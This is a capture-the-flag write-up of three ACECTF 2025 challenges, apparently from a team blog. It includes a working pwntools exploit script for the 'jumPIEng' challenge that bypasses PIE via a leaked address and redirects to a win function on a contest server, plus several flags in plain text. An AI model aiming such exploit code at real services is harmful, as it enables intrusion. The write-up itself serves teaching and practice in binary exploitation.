







import PostFileDownload from "../../../components/PostFileDownload.astro";

## !Underflow

> Something simple to warm you up.

<PostFileDownload name="2025-acectf-underflow.zip" />

Given a binary called "exploit-me", we decided to decompile with Ghidra.



Looking at the function list, we were curious about the `print_flag` function so we decided to take a look further.



The flag was just written in plain text: `ACECTF{buff3r_0v3rfl3w}`

## jumPIEng

> Harry, a rookie in CTFs just begun learning binary exploitation and was fascinated with how PIE works. So, he now believe that no matter how much information you have about the addresses, you cannot leak the flag from his binary because it has PIE enabled. Good luck proving him wrong.

<PostFileDownload name="2025-acectf-jumpieing.zip" />

Given a binary called "redirection", after analysing in Ghidra it looked like a PIE challenge with ret2win. We are given a main function address leak, and that is enough to get base address.

Following the PIE bypass tutorial from ir0nstone: https://ir0nstone.gitbook.io/notes/binexp/stack/pie/pie-exploit

It is enough to redirect to the win function known as `redirect_to_success`:



The solver script is:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'redirection')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.131.133.224'
port = int(args.PORT or 12346)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

log.info(io.recvuntil("address: "))
leak = int(io.recvline().strip(), 16)
log.info(f"leak: {hex(leak)}")

exe.address = leak - exe.sym['main']
log.info(io.clean())

payload = hex(exe.sym['redirect_to_success'])
log.info(f"payload: {payload}")
io.sendline(payload)

io.interactive()
```



Flag : `ACECTF{57up1d_57up1d_h4rry}`

## Running Out of Time

> A mysterious program asks for a specific number, but the correct value changes every time you run it. Can you figure out how the number is generated and retrieve the hidden flag?
>
> Analyze the binary, reverse-engineer the logic, and find a way to predict the correct input to trigger the win condition.

<PostFileDownload name="2025-acectf-Running_Out_Of_Time.zip" />

Given a binary for Windows called "Running_Out_Of_Time.exe", we decided to decompile with Ghidra. Because there was no nc, it means that we definitely can just do static analysis.



In the main function it looked like a simple RNG prediction challenge, but it looked like it just goes to a function called `p3xr9q_t1zz`, so we looked on it.



So we were lazy to type all of the characters to decode the flag so we just opened DeepSeek:



Flag: `ACECTF{71m3_570pp3d}`
